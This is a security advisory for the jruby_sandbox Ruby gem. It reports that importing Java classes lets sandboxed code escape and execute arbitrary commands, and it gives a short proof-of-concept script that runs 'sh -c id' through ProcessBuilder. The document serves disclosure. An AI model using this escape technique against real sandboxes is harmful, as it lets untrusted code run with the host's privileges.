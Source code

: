 ## Overview
[`jruby_sandbox`](https://rubygems.org/gems/jruby_sandbox) is a version of `_why's Freaky Freaky Sandbox` for JRuby.
Affected versions of this gem are vulnerable to sandbox bypassing for arbitrary code execution while importing Java classes.

## Details
`jruby_sandbox` aims to allow safe execution of user given Ruby code within a JRuby [0] runtime. However via import of Java classes it is possible to circumvent those protections and execute arbitrary code outside the sandboxed environment.

**Example:**
```ruby
require 'sandbox'
sand = Sandbox.safe
sand.activate!

begin
  sand.eval("print `id`")
rescue Exception => e
  puts "fail via Ruby ;)"
end
puts "Now for some Java"

sand.eval("Kernel.send :java_import, 'java.lang.ProcessBuilder'")
sand.eval("Kernel.send :java_import, 'java.util.Scanner'")
sand.eval("s = Java::java.util.Scanner.new( " +
          "Java::java.lang.ProcessBuilder.new('sh','-c','id')" +
          ".start.getInputStream  ).useDelimiter(\"\x00\").next")
sand.eval("print s")
```

## References
- http://rubysec.com/advisories/OSVDB-106279
- http://www.phenoelit.org/stuff/jruby-sandbox.txt
